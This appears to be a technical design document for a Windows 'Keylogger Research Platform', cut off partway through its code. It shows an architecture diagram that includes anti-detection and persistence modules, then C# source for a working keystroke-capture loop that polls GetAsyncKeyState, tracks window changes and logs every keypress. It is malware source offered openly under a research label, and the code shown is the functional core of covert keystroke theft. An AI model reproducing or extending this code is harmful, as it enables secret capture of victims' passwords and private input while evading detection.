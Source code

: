 # Technical Implementation Details

This document provides an in-depth review of the technical architecture, design decisions, and implementation details of the Keylogger Research Platform.

## Architecture Overview

```
┌───────────────────────────────────────┐
│           Keylogger Core              │
├───────────┬───────────────┬───────────┤
│ Input     │ Processing    │ Output    │
│ Subsystem │ Pipeline      │ Handler   │
├───────────┼───────────────┼───────────┤
│ Win32 API │ Encryption    │ File I/O  │
│ Hooks     │ Engine        │ System    │
└───────────┴───────────────┴───────────┘
         │                     ▲
         ▼                     │
┌───────────────────────────────────────┐
│        System Integration Layer       │
├───────────────────┬───────────────────┤
│ Anti-Detection    │ Persistence       │
│ Module            │ Module            │
└───────────────────┴───────────────────┘
```

## Repository Status Update

The technical implementation now includes basic functionality, with non-functional components preserved for future enhancements and research purposes.

## Core Engine Implementation

### Input Monitoring System

The keylogger utilizes the Win32 API to poll keyboard state through `GetAsyncKeyState` in a continuous loop:

```csharp
static void CaptureKeys()
{
    while (true)
    {
        Thread.Sleep(10); // Small delay to reduce CPU usage
        
        // Check for window changes
        CheckActiveWindowChange();
        
        // Check all key states
        for (int i = 0; i < 256; i++)
        {
            int keyState = GetAsyncKeyState(i);
            // Key was pressed since last check (0x8000 = high-order bit set)
            if ((keyState & 0x8000) != 0)
            {
                string keyData = InterpretKeyCode(i);
                if (!string.IsNullOrEmpty(keyData))
                {
                    LogKeypress(keyData);
                }
            }
        }
```